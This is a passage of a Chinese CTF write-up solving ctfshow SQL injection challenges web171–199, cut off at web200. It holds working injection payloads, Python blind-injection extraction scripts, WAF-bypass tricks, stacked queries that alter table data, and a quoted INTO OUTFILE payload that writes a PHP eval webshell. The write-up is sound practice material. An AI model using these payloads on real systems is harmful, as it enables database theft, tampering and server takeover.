


前段时间学了部分mysql，然后发现ctfshow上有将近150道sql注入的题，比较循序渐进，所以最近从0开始sql注入（

## 无过滤注入

### web171

```sql
-1' or id = '26
```

### web172

查询语句：

```php
$sql = "SELECT username, password FROM users WHERE username != 'flag' AND id = '".$_GET['id']."' LIMIT 1;";
```

返回逻辑：

```php
		 if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

union联合查询，要求多张表的列数相同且字符类型要保持一致，把多次查询的结果合并起来形成一个新的查询结果集

```sql
-1' union select id,password from ctfshow_user2 where username = 'flag
```

### web173

查询语句：

```php
$sql = "select id,username,password from ctfshow_user2 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

返回逻辑

```php
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这次联合查询三个字段都存在，因此无法像172一样绕过username，但似乎可以对username进行hex编码来绕过对查询结果中对username字符的筛查

```sql
-1' union select b.id,hex(b.username),b.password from ctfshow_user3 as b where b.username = 'flag
```

### web174

查询语句：

```php
$sql = "select username,password from ctfshow_user4 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

返回逻辑：

```php
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这次把flag和数字都禁了，可以直接暴力的用replace函数并且嵌套一下把数字全部替换成字符

```sql
replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(b.password,"1","!"),"2","@"),"3","#"),"4","$"),"5","%"),"6","^"),"7","&"),"8","*"),"9","("),"0",")")
```

所以最后的payload是

```sql
-1' union select 'A',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(b.password,"1","!"),"2","@"),"3","#"),"4","$"),"5","%"),"6","^"),"7","&"),"8","*"),"9","("),"0",")") from ctfshow_user4 as b where b.username = 'flag
```

但发现直接在网页提交一直出错找不到原因，抓包后发现get传参被截断，因此拿burpsuite编码+发包得到最终的flag



### web175

查询语句：

```php
$sql = "select username,password from ctfshow_user5 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

返回逻辑：

```php
    if(!preg_match('/[\\x00-\\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这次过滤了所有的ascii字符集，上网查大佬的writeup发现有用写文件方式直接getshell的

```text
-1%27%20union%20select%201,from_base64(%22%50%44%39%77%61%48%41%67%5a%58%5a%68%62%43%67%6b%58%31%42%50%55%31%52%62%4d%56%30%70%4f%7a%38%2b%22)%20into%20outfile%20%27/var/www/html/1.php
```

但不知道为啥我一直没有复现成功，换种方式尝试时间盲注发现存在漏洞



由于题目说了查询语句如下，所以知道表名是ctfshow_user5，要爆的是username=flag对应的password值

```php
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user5 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

所以写脚本先爆password长度，爆出来长度是45

```python
import requests
import urllib3
import time

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://2b23718e-59f2-4b27-86ec-1324a25e35f0.challenge.ctf.show/api/v5.php"

headers = {
    "User-Agent": "Mozilla/5.0",
    "X-Requested-With": "XMLHttpRequest",
    "Referer": "https://2b23718e-59f2-4b27-86ec-1324a25e35f0.challenge.ctf.show/select-no-waf-5.php",
}

target = "(select password from ctfshow_user5 where username='flag' limit 0,1)"

low = 1
high = 100

while low <= high:

    mid = (low + high) // 2

    payload = f"1' and if(length({target})>{mid},sleep(5),0)-- -"
    url = f"{base}?id={payload}&page=1&limit=10"

    start = time.time()
    requests.get(url, headers=headers, verify=False)
    end = time.time()

    if end - start > 4:
        low = mid + 1
    else:
        high = mid - 1

print("长度为:", low)
```

然后爆password，爆出flag为ctfshow{6a433c74-67b2-44e2-9253-f2d1d51c590e}

```python
import requests
import urllib3
import time

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://2b23718e-59f2-4b27-86ec-1324a25e35f0.challenge.ctf.show/api/v5.php"

headers = {
    "User-Agent": "Mozilla/5.0",
    "X-Requested-With": "XMLHttpRequest",
    "Referer": "https://2b23718e-59f2-4b27-86ec-1324a25e35f0.challenge.ctf.show/select-no-waf-5.php",
}

target = "(select password from ctfshow_user5 where username='flag' limit 0,1)"

length = 45
flag = ""

for pos in range(1, length + 1):
    low = 32
    high = 126

    while low <= high:

        mid = (low + high) // 2

        payload = f"1' and if(ascii(substr({target},{pos},1))>{mid},sleep(3),0)-- -"
        url = f"{base}?id={payload}&page=1&limit=10"

        start = time.time()
        requests.get(url, headers=headers, verify=False)
        end = time.time()

        if end - start > 2.5:
            low = mid + 1
        else:
            high = mid - 1

    char = chr(low)
    flag += char
    print("当前flag:", flag)

print("\\n最终flag:", flag)
```

## 过滤注入

### web176-182

过滤的都很简单，用以下某种payload就能过

```text
-1' or 1=1 --+
'or 1=1%23
'or/**/1=1%23
'or(1=1)%23
'or'1'='1'%23
'or%0a1=1%0a%23
'or%0b1=1%0b%23
'or%0c1=1%0b%23
'or%091=1%09%23
'or'1'='1'--%0c
'or'1'='1'--%01
'||1=1%23
```

### web183

查询语句

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(pass) from ".$_POST['tableName'].";";
```

返回逻辑

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\\*|\\x09|\\x0a|\\x0b|\\x0c|\\x0d|\\xa0|\\x00|\\#|\\x23|file|\\=|or|\\x7c|select|and|flag|into/i', $str);
  }
```

查询结果

```php
//返回用户表的记录总数
      $user_count = 0;
```

用 `` ` `` 绕过空格，然后用hackbarPOST

``tableName=`ctfshow_user`where`pass`like'%25ct%25'``回显count为1

``tableName=`ctfshow_user`where`pass`like'%25ct%25'``回显count为0

确定是布尔盲注，写py脚本

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://4883e782-f6a3-4802-b5d8-4128745fd673.challenge.ctf.show/select-waf.php"

chars = string.ascii_lowercase + string.digits + "-}_"

flag = "ctfshow{"

while True:
    found_char = False
    for i in chars:
        payload = f"`ctfshow_user`where`pass`like'{flag}{i}%'"

        data = {
            'tableName': payload
        }

        try:
            r = requests.post(base, data=data, verify=False)
            r = r.text
            if "user_count = 1" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

一开始chars写的是`string.ascii_lowercase + string.digits + "-*}"`，跑出来结果是`ctfshow{5d9e1448-c72b-4e6a-aa53-b9520d6e11d7*`，突然想起来 `_` 也是sql的通配符，所以得把 `_` 放在 `}` 的后面才能正常出结果，所以最终flag: ctfshow{5d9e1448-c72b-4e6a-aa53-b9520d6e11d7}

### web184

查询语句

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ".$_POST['tableName'].";";
```

返回逻辑

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\\*|\\x09|\\x0a|\\x0b|\\x0c|\\0x0d|\\xa0|\\x00|\\#|\\x23|file|\\=|or|\\x7c|select|and|flag|into|where|\\x26|\\'|\\"|union|\\`|sleep|benchmark/i', $str);
  }
```

查询结果

```php
//返回用户表的记录总数
      $user_count = 0;
```

禁了更多符号，时间盲注 、where、`` ` `` 都不能用，但是好像没禁group by、having和空格，而且从上一题遇到的通配符问题了解到注入除了like更常用的是regexp（或其别名rlike），然后双引号被禁了，但是了解到大多数情况对数据库来说，`'abc'`和 0x616263 是等价的，0x616263 会被当作字符串字节，所以可以用16进制绕过对单双引号的过滤，尝试POST：`tableName=ctfshow_user group by pass having pass regexp(0x63746673686f777b)`，0x63746673686f777b等价于`"ctfshow{"`，回显count为1，从而可以写py脚本布尔盲注

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://fe73153a-2760-42df-92e8-598dba5b9f4c.challenge.ctf.show/select-waf.php"

chars = string.ascii_lowercase + string.digits + "-}_"

flag = "ctfshow{"

while True:
    found_char = False

    for i in chars:
        raw_regexp = f"{flag}{i}"
        hex_regexp = "0x" + raw_regexp.encode().hex()

        payload = f"ctfshow_user group by pass having pass regexp({hex_regexp})"

        data = {
            'tableName': payload
        }

        try:
            r = requests.post(base, data=data, verify=False)
            r = r.text
            if "user_count = 1" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

最终flag: ctfshow{ca61214f-3428-41f2-9519-f7b568974be9}

### web185

查询语句

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ".$_POST['tableName'].";";
```

返回逻辑

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\\*|\\x09|\\x0a|\\x0b|\\x0c|\\0x0d|\\xa0|\\x00|\\#|\\x23|[0-9]|file|\\=|or|\\x7c|select|and|flag|into|where|\\x26|\\'|\\"|union|\\`|sleep|benchmark/i', $str);
  }
```

查询结果

```php
//返回用户表的记录总数
      $user_count = 0;
```

空格留了，和上题相比数字过滤了，因此无法直接套用上题，但这可以靠concat函数和true的运算构造和上题一样的hex编码了，所以可以在上题脚本中加上一个函数，干脆把字符串中内容全部按照ascii码形式变成true的运算形式，诶这样好像也可以不用管单双引号的过滤直接看flag了，试试就试试，只是不知道true太多会不会直接爆掉

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://2cdf629a-2796-4fb6-ba7d-6e152664e8c7.challenge.ctf.show/select-waf.php"

chars = string.ascii_lowercase + string.digits + "-}_"

flag = "ctfshow{"

def get_payload_no_digits(target_str):
    parts = []
    for char in target_str:
        ascii_val = ord(char)
        true_str = "+".join(["(true)"] * ascii_val)
        parts.append(f"char({true_str})")
    return f"concat({','.join(parts)})"

while True:
    found_char = False

    for i in chars:
        raw_regexp = f"{flag}{i}"
        true_regexp = get_payload_no_digits(raw_regexp)

        payload = f"ctfshow_user group by pass having pass regexp({true_regexp})"

        data = {
            'tableName': payload
        }

        try:
            r = requests.post(base, data=data, verify=False)
            r = r.text
            if "user_count = 1" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

成功活下来了，最终flag: ctfshow{a5053176-6a0d-4745-8b37-ef69401fad62}

### web186

查询语句

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ".$_POST['tableName'].";";
```

返回逻辑

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\\*|\\x09|\\x0a|\\x0b|\\x0c|\\0x0d|\\xa0|\\%|\\<|\\>|\\^|\\x00|\\#|\\x23|[0-9]|file|\\=|or|\\x7c|select|and|flag|into|where|\\x26|\\'|\\"|union|\\`|sleep|benchmark/i', $str);
  }
```

查询结果

```php
//返回用户表的记录总数
      $user_count = 0;
```

这次比上题又多过滤了 `%`、`<`、`>`、`^` ，对于我们上一题的脚本没有任何影响，改个url直接试试

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://ce3b4900-2bdc-411f-9163-b84eafe2076c.challenge.ctf.show/select-waf.php"

chars = string.ascii_lowercase + string.digits + "-}_"

flag = "ctfshow{"

def get_payload_no_digits(target_str):
    parts = []
    for char in target_str:
        ascii_val = ord(char)
        true_str = "+".join(["(true)"] * ascii_val)
        parts.append(f"char({true_str})")
    return f"concat({','.join(parts)})"

while True:
    found_char = False

    for i in chars:
        raw_regexp = f"{flag}{i}"
        true_regexp = get_payload_no_digits(raw_regexp)

        payload = f"ctfshow_user group by pass having pass regexp({true_regexp})"

        data = {
            'tableName': payload
        }

        try:
            r = requests.post(base, data=data, verify=False)
            r = r.text
            if "user_count = 1" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

最终flag: ctfshow{60067eb1-4c59-4806-85e5-6ab16c3d7726}

### web187

查询语句

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ctfshow_user where username = '$username' and password= '$password'";
```

返回逻辑

```php
    $username = $_POST['username'];
    $password = md5($_POST['password'],true);

    //只有admin可以获得flag
    if($username!='admin'){
        $ret['msg']='用户名不存在';
        die(json_encode($ret));
    }
```

用户名需要填为admin，只能控制password的值，对password进行md5加密，第二个参数设置为true，则以十六字节原始二进制格式返回，而存在一个特殊的password：ffifdyop，md5加密后结果为276f722736c95d99e921722cf9ed621c，经过ascii码表转换为原始字符串后前几个字节变成 ' or '6…后面是以数字6开头的字符串，会评估为true，因此能判断password为true

### web188

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
```

返回逻辑

```php
  //用户名检测
  if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\\(|\\)|\\'|\\"/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
```

利用了mysql的弱类型，因为要查的username是flag，password是ctfshow{…}格式，而查询语句直接是`{$username}`，没有单引号，flag和ctfshow{…}以字母开头转换为数字是0，可以相匹配，抓包得到flag

### web189

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
```

返回逻辑

```php
  //用户名检测
  if(preg_match('/select|and| |\\*|\\x09|\\x0a|\\x0b|\\x0c|\\x0d|\\xa0|\\x00|\\x26|\\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
```

题目提示：flag在api/index.php文件中

直接用上一题的payload失败了，结合题目提示想到用sql中的load_file函数进行布尔盲注，并且尝试时发现username为0是返回的是密码错误，username是1、2等其他时返回的是查询失败，说明存在字符串开头为字符的username，抓包发现前者返回的是`{"code":0,"msg":"\u5bc6\u7801\u9519\u8bef","count":0,"data":[]}`，即“密码错误”的unicode编码，后者则返回`{"code":0,"msg":"\u67e5\u8be2\u5931\u8d25","count":0,"data":[]}`，即“查询失败”，因此以`\u5bc6\u7801\u9519\u8bef`为布尔盲注成功与否的判断点

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://e8c25252-41db-4f01-bbd0-af96fffc80dc.challenge.ctf.show/api/index.php"

chars = string.ascii_lowercase + string.digits + "-}_"

flag = "ctfshow{"

while True:
    found_char = False
    for i in chars:
        data = {
            "username":"if(load_file('/var/www/html/api/index.php')regexp('{0}'),0,1)".format(flag + i),
            'password':0
        }

        try:
            r = requests.post(url=base, data=data, verify=False)
            r = r.text
            if r"\\u5bc6\\u7801\\u9519\\u8bef" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

一开始写的脚本直接使用的`if "\u5bc6\u7801\u9519\u8bef" in r`来判断，一直跑不出来结果，后面发现python解释器会自动将其unicode编码为中文，自然就匹配不上了

最终flag: ctfshow{7a75fe6e-e561-4264-b00e-95df98768ec8}

## 布尔盲注

### web190

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

返回逻辑

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
```

貌似到正经布尔盲注章节了，这次username加了单引号，没法用弱类型了，但尝试admin提示密码错误，尝试`admin' and '1' = '1`，提示密码错误，尝试`admin' and '1' = '2`，提示用户名不存在，于是可以开始写脚本布尔盲注了，但貌似直接套用上题的脚本失败了，似乎是表名列名有问题，所以要重新爆库名、表名、列名

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://5ab7c9c4-8d49-4318-bb0c-ad6d6cbdb0fb.challenge.ctf.show/api/"

chars = string.ascii_lowercase + string.digits + "-}_"

database = ""

while True:
    found_char = False
    pos = len(database) + 1
    for i in chars:
        data = {
            "username": "admin' and if(substr(database(),{0},1)='{1}',1,0)#".format(pos,i),
            'password': 0
        }

        try:
            r = requests.post(url=base, data=data, verify=False)
            r = r.text
            if r"\\u5bc6\\u7801\\u9519\\u8bef" in r:
                database += i
                print("当前database：", database)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or database.endswith('}'):
        print("\\n最终database:", database)
        break
```

最终database: ctfshow_web

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://5ab7c9c4-8d49-4318-bb0c-ad6d6cbdb0fb.challenge.ctf.show/api/"

chars = string.ascii_lowercase + string.digits + ",-}_"

database = "ctfshow_web"
table_names = ""

while True:
    found_char = False
    pos = len(table_names) + 1
    for i in chars:
        data = {
            "username": "admin' and if(substr((select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),{0},1)='{1}',1,0)#".format(pos,i),
            'password': 0
        }

        try:
            r = requests.post(url=base, data=data, verify=False)
            r = r.text
            if r"\\u5bc6\\u7801\\u9519\\u8bef" in r:
                table_names += i
                print("当前table_names：", table_names)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or table_names.endswith('}'):
        print("\\n最终table_names:", table_names)
        break
```

最终table_names: ctfshow_fl0g,ctfshow_user

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://5ab7c9c4-8d49-4318-bb0c-ad6d6cbdb0fb.challenge.ctf.show/api/"

chars = string.ascii_lowercase + string.digits + ",-}_"

database = "ctfshow_web"
table_names = "ctfshow_fl0g"
column_names = ""

while True:
    found_char = False
    pos = len(column_names) + 1
    for i in chars:
        data = {
            "username": "admin' and if(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'),{0},1)='{1}',1,0)#".format(pos, i),
            'password': 0
        }

        try:
            r = requests.post(url=base, data=data, verify=False)
            r = r.text
            if r"\\u5bc6\\u7801\\u9519\\u8bef" in r:
                column_names += i
                print("当前column_names：", column_names)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or column_names.endswith('}'):
        print("\\n最终column_names:", column_names)
        break
```

最终column_names: id,f1ag

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://5ab7c9c4-8d49-4318-bb0c-ad6d6cbdb0fb.challenge.ctf.show/api/"

chars = string.ascii_lowercase + string.digits + ",-}_"

database = "ctfshow_web"
table_names = "ctfshow_fl0g"
column_names = "f1ag"
flag = "ctfshow{"

while True:
    found_char = False
    pos = len(flag) + 1
    for i in chars:
        data = {
            "username": "admin' and if(substr((select f1ag from ctfshow_fl0g),{0},1))='{1}',1,0)#".format(pos, i),
            'password': 0
        }

        try:
            r = requests.post(url=base, data=data, verify=False)
            r = r.text
            if r"\\u5bc6\\u7801\\u9519\\u8bef" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

最终flag: ctfshow{9fd4c26e-4fa9-4a4c-9f61-f22a899ae40e}

### web191

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

返回逻辑

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

过滤了ascii，可以用ord替代，但我们上题都没用到二分法也就没用到ascii，脚本换个url直接过了

最终flag: ctfshow{714c92ce-b5ec-4c0f-bfcc-ec01917de702}

### web192

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

返回逻辑

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

依旧无影响，直接过

最终flag: ctfshow{5c4d334b-0548-479a-a82d-1c93685c38b4}

### web193

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

返回逻辑

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

substr被禁了呜呜呜，查sql语法发现个left，马上改换新欢，然后还发现表名给偷偷换了，只能重新跑一次了

```python
"username": "admin' and (left((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0})='{1}')#".format(pos,table_names+i)
```

最终table_names: ctfshow_flxg,ctfshow_user

```python
"username": "admin' and (left((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'),{0})='{1}')#".format(pos, column_names+i)
```

最终column_names: id,f1ag

```python
"username": "admin' and (left((select f1ag from ctfshow_flxg),{0})='{1}')#".format(pos, flag+i)
```

最终flag: ctfshow{6fab011d-181d-4a60-a0c2-5c321b8a2ffb}

### web194

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

返回逻辑

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

left/right没了，换lpad

```text
mysql> SELECT LPAD('hi',4,'??');
-> '??hi'
mysql> SELECT LPAD('hi',1,'??');
-> 'h'
```

```python
"username": "admin' and (lpad((select f1ag from ctfshow_flxg),{0},'')='{1}')#".format(pos, flag+i)
```

最终flag: ctfshow{1ec300eb-4078-4e1f-a881-2c55ffa04a95}

## 堆叠注入

### web195

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

返回逻辑

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\\*|\\x09|\\x0a|\\x0b|\\x0c|\\x0d|\\xa0|\\x00|\\#|\\x23|\\'|\\"|select|union|or|and|\\x26|\\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

username没有被引号包裹，所以可以用弱类型，先尝试设置username为0，发现显示密码错误，说明可以查到，并且没有过滤 ; 则可以堆叠注入，改换DML语句来修改数据，直接update+set让pass列的数据都为1，然后用 `` ` `` 来包裹标识符绕过被禁的空格，这样就可以满足`$row[0]==$password`，执行`$ret['msg']="登陆成功 flag is $flag"`来获取flag

```text
username=0;update`ctfshow_user`set`pass`=1&password=1
username=0&password=1
```

```json
{"code":0,"msg":"\u767b\u9646\u6210\u529f flag is ctfshow{60cb9fdd-fb6c-4194-8ead-cc41f2c71776}","count":0,"data":[]}
```

### web196

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

返回逻辑

```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\\*|\\x09|\\x0a|\\x0b|\\x0c|\\x0d|\\xa0|\\x00|\\#|\\x23|\\'|\\"|select|union|or|and|\\x26|\\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if(strlen($username)>16){
    $ret['msg']='用户名不能超过16个字符';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

加了个username的长度限制，然后神人的地方在于题目说是过滤了select但实际上并没有过滤，所以直接填`-1;select(1)`和1，sql查询语句就成了`select pass from ctfshow_user where username = -1;select(1)` 而由于没有用户名为-1的数据，因此前者返回null，后者返回1，进入了`row[0]`，从而让if判断为真显示flag

### web197

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

返回逻辑

```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\\*|\\#|\\-|\\x23|\\'|\\"|union|or|and|\\x26|\\x7c|file|into|select|update|set//i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

这次是真把select禁了，但是没了长度限制，就可以直接插入自己的数据

```sql
0;insert ctfshow_user (username,pass) values(1,2)
```

然后登录即可

### web198

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

返回逻辑

```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\\*|\\#|\\-|\\x23|\\'|\\"|union|or|and|\\x26|\\x7c|file|into|select|update|set|create|drop/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

多禁了个drop和create，直接套上题payload过

### web199

查询语句

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

返回逻辑

```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\\*|\\#|\\-|\\x23|\\'|\\"|union|or|and|\\x26|\\x7c|file|into|select|update|set|create|drop|\\(/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

禁了括号，用show tables的返回值让row[0]的值为表名，结合查询语句中说明的表名ctfshow_user，就可以直接将password置为ctfshow_user，username置为0来弱类型匹配，得到flag

### web200

查询语句

```php
  //拼接sql语句查找指定ID用户
